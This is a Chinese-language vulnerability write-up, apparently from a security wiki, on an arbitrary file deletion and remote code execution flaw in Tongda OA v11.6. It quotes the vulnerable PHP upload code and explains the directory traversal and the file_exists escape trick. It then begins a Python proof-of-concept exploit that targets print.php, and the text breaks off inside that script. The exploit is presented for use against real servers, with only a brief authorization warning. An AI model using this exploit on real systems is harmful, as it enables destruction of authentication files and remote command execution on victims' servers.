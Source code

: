 ```php
	}

	@unlink($_FILES["FILE1"]);
}
```

在这段代码中，如果不存在 **$from_rep** 变量则会跳到如下代码

```php
else {
			$s_n = $_FILES["FILE1"]["name"];

			if ($s_n[0] != "{") {
				$s_n = $repkid . "_" . $s_n;
			}

			if (move_uploaded_file($_FILES["FILE1"]["tmp_name"], $uploaddir . $s_n)) {
			}
		}
```

这里直接将 **$repkid** 变量进行拼接,也就是说可以通过目录穿越来上传恶意文件到指定目录

这里需要利用file_exists函数的漏洞构造/.<>./.<>./.<>./ 逃逸出来

使用POC来利用漏洞

![image-20220209110025711](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091100958.png)

注意在删除验证身份的文件后，会造成后台页面出现如下图，使用前备份文件

![image-20220209110050983](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091100063.png)

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech


import requests
import re
import base64
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 通达OA v11.6 任意文件删除&RCE                                \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                           \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+  \033[36mCmd    >>> whoami                                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    check_url = target_url + "/module/appbuilder/assets/print.php"
    try:
        check_url_response  = requests.get(url = check_url)
        if check_url_response.status_code == 200:
            print("\033[32m[o] 存在 /module/appbuilder/assets/print.php 可能含有通达OA v11.6 任意文件删除&RCE漏洞\033[0m")
            input("\033[32m[o] 此漏洞会对真实环境造成影响，请在授权的情况下利用此漏洞，按下任意键继续..... \033[0m")
        else:
```